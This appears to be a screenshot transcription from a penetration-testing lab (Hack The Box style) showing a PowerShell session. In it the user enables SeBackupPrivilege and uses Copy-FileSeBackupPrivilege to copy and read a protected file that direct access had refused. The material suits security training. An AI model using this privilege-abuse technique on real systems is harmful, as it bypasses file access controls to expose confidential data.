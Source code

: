 ```powershell
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled

# Enabling SeBackupPrivilege
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

# Copying a Protected File
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand


PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>

```